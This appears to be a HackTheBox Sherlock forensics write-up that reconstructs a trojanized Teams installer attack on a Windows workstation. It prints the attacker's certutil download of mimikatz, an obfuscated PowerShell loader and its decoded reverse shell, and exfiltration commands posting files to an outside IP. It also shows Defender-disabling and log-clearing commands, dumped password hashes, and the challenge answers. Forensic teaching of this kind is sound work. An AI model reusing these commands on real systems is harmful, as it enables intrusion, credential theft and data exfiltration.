







import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Sherlock Scenario

Eli, a recent addition to the IT team, is eager to settle into his new role. Due to the company's flexible "Bring Your Own Device" (BYOD) policy, which applies to everyone except IT administrators, Eli receives a newly prepared PC from Metushelah, the senior IT administrator, as part of the IT team's secure device protocol. Eli's first priority is to install essential applications that will enable him to connect seamlessly with the rest of the team. He begins setting up the system and downloading the necessary software. After a few days on the job, Eli starts noticing something unusual: every so often, a PowerShell window flashes on his screen, disappearing almost instantly, too quickly to read any of its contents. Assuming it's just a minor glitch, Eli continues with his work. However, as the unexpected PowerShell pop-ups persist, Eli decides to consult Metushelah. Metushelah suspects these PowerShell flashes could indicate malicious activity. To ensure there are no security breaches, he conducts a forensic acquisition of Eli's PC and forwards it to the Incident Response team for further analysis. Now, as a member of the IR team, your mission is to investigate Eli's workstation.

## Analysis Process

HackTheBox provided me with the victim's **C drive directory**, and I will use FTK Imager to analyze it. Okay, let's go.

### Task 1: Identify the specific time the malware was downloaded in UTC.

Okay, first we need to find the time the malware was downloaded. In SillyEli's user folder, we can see that they downloaded a lot of things.

<div class="mx-auto"></div>

This information alone is not enough to conclude what constitutes malware. I tried checking all of the victim's browsing history, including Chrome and Edge, but got no results. Finally, I switched to checking their Firefox browser history.

```shell
C/Users/Eli/AppData/Roaming/Mozilla/Firefox/Profiles/sq1wae60.default-release/
```

I discovered that the victim had downloaded something from a suspicious link.

```shell
$ sqlite3 places.sqlite

sqlite> .tables
moz_anno_attributes                 moz_keywords
moz_annos                           moz_meta
moz_bookmarks                       moz_origins
moz_bookmarks_deleted               moz_places
moz_historyvisits                   moz_places_extra
moz_historyvisits_extra             moz_places_metadata
moz_inputhistory                    moz_places_metadata_search_queries
moz_items_annos                     moz_previews_tombstones
sqlite> SELECT url, last_visit_date from moz_places;
...
https://filesuneedtodownload.s3.eu-north-1.amazonaws.com/TeamsSetup.exe | 1730858274115000
...
sqlite>
```

Converting `1730858274115000` to UTC gives us the result `2024-11-06 01:57:54`.

### Task 2: Which domain name was the file downloaded from?

As we analyzed in the first sentence, the answer will be `filesuneedtodownload.s3.eu-north-1.amazonaws.com`.

### Task 3: Identify the SHA-1 hash of the malware.

What we need is the file's hash. However, this file is no longer on drive C. We will use the `Amcache.hve` file to find it.

<div class="mx-auto"></div>

<Callout title="What is Amcache.hve files?" variant="note">
  **AmCache** is a Windows registry hive used to record information about
  programs that have previously appeared or been run on a computer.
</Callout>

Therefore, the final answer is `de733beed85f39605fcdea42dddee190506424f2`. And you can learn more about the `Amcache.hve` file [here](https://securelist.com/amcache-forensic-artifact/117622/).

### Task 4: It looks like malicious tool attempts to download a secondary tool during execution — find and provide the full URL.

I analyzed all the event log files, but I didn't get anything. I finally found something interesting in the Windows Defender Logs at `C\ProgramData\Microsoft\Windows Defender\Support`.

<div class="mx-auto"></div>

The malware executed the following command:

```shell
$ C:\Windows\System32\certutil.exe -urlcache -split -f https://github.com/gentilkiwi/mimikatz/archive/refs/heads/master.zip C:\Users\Eli\Documents\Mimikatz.zip
```

It uses **certutil** to download the **mimikatz** ZIP file from GitHub to the computer, saving it to `C:\Users\Eli\Documents\Mimikatz.zip`.

<Callout
  title="What is certutil? And why is it being exploited?"
  variant="note"
>
  Its "standard" purpose is to work with digital certificates and perform
  certain encryption/authentication-related operations. Additionally, it can
  also download files from the internet (this is its most common misuse).
</Callout>

You can learn more about the Windows Defender Logs at
[here](https://www.thedfirspot.com/post/windows-defender-mp-logs-a-story-of-artifacts).

### Task 5: What is the name of the batch file created on the system as part of the malware execution?

After a thorough search of drive C, I couldn't find any leftover `.bat` files in the system. So I decided to analyze the prefetch files to find some clues.

First, use `PECmd` to parse these files into CSV format:

```shell
$ PECmd.exe -d "D:\sharedVB\mnt\SillyEli\Acquisition\C\Windows\prefetch" --csv "D:\sharedVB\mnt\out" --csvf foo.csv
```

Next, I checked for any `.bat` files and found one with a rather suspicious name: `TEAMSUPDATER.BAT`

<div class="mx-auto"></div>

From the analysis results, we can draw the following conclusions:

- **CMD.exe** ran 12 times.
- There were runs at the exact "incident times": `11/06/2024 01:56`, `01:58`, `02:34`.
- During those runs, `cmd.exe` accessed `TeamsUpdater.bat`.

### Task 6: What was the runtime duration of the malware? (Duration in Ms)

To find the runtime duration of malware, we need to use the `SRUDB.dat` file.

<Callout title="What is the SRUDB.dat file?" variant="note">
  **SRUDB.dat** is the database of the **Windows System Resource Usage Monitor (SRUM)**.
  Windows uses it to record the history of resource usage and application
  activity over time.

You can read more about it [here](https://www.magnetforensics.com/blog/srum-forensic-analysis-of-windows-system-resource-utilization-monitor/).

</Callout>

First, use `SrumECmd` to parse these files into CSV format:

```shell
$ SrumECmd.exe -f "D:\sharedVB\mnt\SillyEli\Acquisition\C\Windows\System32\SRU\SRUDB.dat" --csv "D:\sharedVB\mnt"
```

By filtering with the filename `TeamsSetup.exe`, we can runtime duration of malware:

<div class="mx-auto"></div>

### Task 7: Locate the local URL cache and identify the full URL the threat actor used to download an additional tool during the attack. Include the complete URL with filename and extension.

While searching for information to answer this question, I found a pretty good blog [here](https://www.cybertriage.com/blog/dfir-breakdown-using-certutil-to-download-attack-tools/). As we know, the attacker exploited **certutil** to download malware and with parameter `-urlcache`, downloaded files typically retain the last part of the URL as their name.

```shell
$ C:\Windows\System32\certutil.exe -urlcache -split -f https://github.com/gentilkiwi/mimikatz/archive/refs/heads/master.zip C:\Users\Eli\Documents\Mimikatz.zip
```

By using this parameter, these artifacts exist at the following locations:

- **Content**: Contains copies of any file downloaded by **certutil**.

```shell
  C:/Users/_/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content/_ (standard user folder)
  C:/Windows/_/config/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/Content/_ (System user folder)
```

- **MetaData**: Contains a file with information about the download, such the URL and date.

```shell
  C:/Users/_/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData/_ (standard user folder)
  C:/Windows/_/config/systemprofile/AppData/LocalLow/Microsoft/CryptnetUrlCache/MetaData/_ (System user folder)
```

Since files in **CryptnetUrlCache** are unreadable by default, we will use a [tool](https://github.com/AbdulRhmanAlfaifi/CryptnetURLCacheParser) to parse them.

```shell
$ python3 CryptnetURLCacheParser/CryptnetUrlCacheParser.py -d "/home/viettin/Desktop/MetaData"
...
"2024-11-06T02:13:49.965020","2023-11-13T19:45:56","https://filebin.net/archive/0rkhisv2iq4slveo/kape.zip",139551589,"zipff5183968015c93jd847cf91cf071373","/home/viettin/Desktop/MetaData/5714CB78C8B535362BEA612E6F6795A4"
...
```

So the answer is `https://filebin.net/archive/0rkhisv2iq4slveo/kape.zip`.

### Task 8: What is the name of the scheduled task that the attacker created for persistence?

We can find scheduled tasks in the **TaskCache**. This is the Task Scheduler cache in the Registry. Here we see a scheduled task set for `01:58` - corresponding to the time when the malware was downloaded.

<div class="mx-auto"></div>

So the answer is `TeamsUpdater`.

### Task 9: What is the unique GUID associated with the malicious scheduled task?

As analyzed in the question above, the final answer is `{A4F7ED3E-E7CD-4539-8E79-D73B568FC298}`.

### Task 10: Identify the process or command executed by the malicious scheduled task.

In the Tasks subkey, go to the GUID associated with the malicious scheduled task and look at the **Actions** tab.

<div class="mx-auto"></div>

After decoding, we will obtain the following payload:

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Eli\AppData\Local\Temp\Teams.ps1
```

### Task 11: Identify the attacker's IP address and port.

To find the **attacker's IP address and Port**, we will use the following command to dump the **resident files** from `$MFT`:

```shell
MFTECmd.exe -f "D:\sharedVB\mnt\SillyEli\Acquisition\C\$MFT" --csv "D:\mftout" --csvf mft.csv --dr
```

<Callout title="What is resident files?" variant="note">
  These files have their data (`$DATA`) stored as residents (located directly
  within the `$MFT` record), rather than in off-disk clusters (non-resident).
</Callout>

In the folder containing the dumped resident files, we found a rather suspicious `ps1` file:

```shell
$ strings 315567-1-1_Teams.ps1.bin

(NEW-obJECT SYSTem.Io.StreAmReADEr( ( NEW-obJECT  iO.ComPrEsSiOn.DEFlateStReam( [iO.memoRysTREAm][sYsTEM.coNvERT]::FROMbasE64stRiNg( 'TY9Ra8JAEITfC/0Py3EtdzQeiVHbGiy0oYhQtDRCHyTQJC56rYnibVBR/3svaVr6sMdyzHwzy00+EGPctSbpJ2YE0cEQ5mqMpKJ19oVk1DR8DVcaCxLMu28rr3enPP/WTps5nY4vpRoiRbTFJBcymKUHwlkc85RgAK5SvW7X756uju452C31CoXgesBNrt4wmQsrc1zHvuoFiwUtpYRWgeDKY8DnFvC/2xT3pB6jcDR6LrL1XBeL32i7NiTgWgaXFzw9bBJjLIDVBma/1iVtyqqU0LgHS28/XHtwgklJrR+GhBtgHwUDqza1ckZVJjZxcb/fgOvgJ3upEQ1XVp5cvW81obBuB6oy5u+u8zc=') ,[iO.CoMPreSSiOn.CompressioNmODe]::deCoMPRess) ), [systEm.text.EnCOdIng]::ascII) ).ReaDTOend() | Iex
```

We can decode this payload as follows:

```py

import base64, zlib

b64 = "TY9Ra8JAEITfC/0Py3EtdzQeiVHbGiy0oYhQtDRCHyTQJC56rYnibVBR/3svaVr6sMdyzHwzy00+EGPctSbpJ2YE0cEQ5mqMpKJ19oVk1DR8DVcaCxLMu28rr3enPP/WTps5nY4vpRoiRbTFJBcymKUHwlkc85RgAK5SvW7X756uju452C31CoXgesBNrt4wmQsrc1zHvuoFiwUtpYRWgeDKY8DnFvC/2xT3pB6jcDR6LrL1XBeL32i7NiTgWgaXFzw9bBJjLIDVBma/1iVtyqqU0LgHS28/XHtwgklJrR+GhBtgHwUDqza1ckZVJjZxcb/fgOvgJ3upEQ1XVp5cvW81obBuB6oy5u+u8zc="
data = base64.b64decode(b64)
text = zlib.decompress(data, wbits=-15).decode("ascii", errors="replace")
print(text)
```

```powershell
$sm=(New-Object System.Net.Sockets.TCPClient("192.168.137.132",443)).GetStream();[byte[]]$bt = 0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d = (New-Object Text.ASCIIEncoding).GetString($bt,0, $i);
$bypass = "ASCII"
$output = (iex $d 2>&1 | Out-String) + "`n"
$st = ([text.encoding]::$bypass).GetBytes($output)
$sm.Write($st, 0, $st.Length)}
```

**How it works:**

- The victim's machine connects to `192.168.137.132:443`.
- Remote sends a command string and the victim (IEX) executes it.
- The victim sends back output (including errors) over the same TCP channel.

### Task 12: What is the name of the sensitive file exfiltrated by the threat actor?

We can view the **PowerShell commands** that the attacker executed at the following path:

```shell
C/Users/Eli/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/
```

```powershell
whoami
hostname
net user
net user Eli
findstr /s /i /m "mimikatz" "C:\Users\Eli\Documents\*"
Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring
findstr /s /i /m "password" .docx.doc .pdf.pptx
findstr /s /i /m "sensitive" .docx.doc .pdf.pptx
Get-ChildItem -Path C:\ -Include *.pdf, *.doc, *.docx -Recurse -ErrorAction SilentlyContinue
cd C:\Users\Eli\Documents
ls
type "Meeting Notes.txt"
Invoke-WebRequest -Uri "http://91.240.118.162:8080/" -Method Post -InFile "C:\Users\Eli\Documents\Employees_Contact_Info.pdf" -ContentType "application/octet-stream";
Invoke-WebRequest -Uri "http://91.240.118.162:8080/" -Method Post -InFile "C:\Users\Eli\Documents\IT_Collaboration_Platform.pptx" -ContentType "application/octet-stream";
Remove-Item -Path "C:\Users\Eli\Documents\Employees_Contact_Info.pdf" -Force
Remove-Item -Path "C:\Users\Eli\Documents\IT_Collaboration_Platform.pptx" -Force
ls
Get-EventLog -LogName * | ForEach-Object { Clear-EventLog -LogName $_.Log }
```

We can see that the attacker executed a series of commands with the aim of **discovery**, **inspecting**, and **disabling** Windows Defender, and **stealing** two files via HTTP POST to upload them directly to an external server.

### Task 13: At what time did the attacker clear the Windows event logs? (in UTC)

For this task, you just need to check **Event ID 1102** in the **Security Log**:

> 2024-11-06 02:16:50 UTC

### Task 14: What is the name of the legitimate tool used by the threat actor to acquire the SAM and SYSTEM hives?

In **task 7**, we saw it download a zip file named `kape.zip`. And in the `$MFT` file, we can easily see that `kape.exe` has been executed. Therefore, it is very likely that the tool being exploited here is `kape`.

### Task 15: Identify the password belonging to Eli’s account that were exfiltrated by the attacker to their C2 server.

You can simply dump the password by using two registry entries: **SAM** and **SYSTEM**.

```shell
$ impacket-secretsdump -sam ../SAM -system ../SYSTEM -security ../SECURITY LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x035c7eeba16ca4cc5d5a91190b13a35b
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:d9a2192b83449ffb92ddd5ad93144b43:::
Eli:1001:aad3b435b51404eeaad3b435b51404ee:4494236c3843cdc39ce068871bed96e0:::
Metushelah:1002:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

Then use the **hashcat** or [crackstation](https://crackstation.net/), and you will have Eli's password: `crackstation`.

## Conclusion

This forensic investigation revealed a sophisticated supply chain attack targeting Eli's workstation through a trojanized Teams installer. The attacker's methodology demonstrated several key techniques:

**Attack Chain Summary:**
The threat actor initially compromised Eli's system by delivering a malicious `TeamsSetup.exe` file disguised as legitimate software. This initial payload established persistence through a scheduled task (`TeamsUpdater`) and downloaded additional tools including Mimikatz for credential theft and KAPE for evidence collection.

**Key Findings:**

- **Timeline Accuracy**: The forensic artifacts (prefetch files, registry hives, event logs) provided precise timestamps of the attack progression
- **Persistence Mechanism**: The scheduled task `{A4F7ED3E-E7CD-4539-8E79-D73B568FC298}` ensured continued access through a hidden PowerShell script
- **Data Exfiltration**: Two sensitive files (`Employees_Contact_Info.pdf` and `IT_Collaboration_Platform.pptx`) were successfully exfiltrated to `91.240.118.162:8080`
- **Credential Compromise**: The attacker dumped both SAM and SYSTEM registry hives, leading to the compromise of Eli's password

**Lessons Learned:**
This case underscores the importance of defense-in-depth strategies: implementing code signing verification, using application whitelisting, enabling real-time threat detection, and maintaining robust logging. The attacker's ability to disable Windows Defender highlights the necessity of additional endpoint protection layers and the value of immutable audit logs stored off-system.

Through methodical forensic analysis, we successfully reconstructed the complete attack narrative and identified all indicators of compromise, demonstrating why DFIR expertise is crucial in modern cybersecurity operations.

<div class="mx-auto"></div>
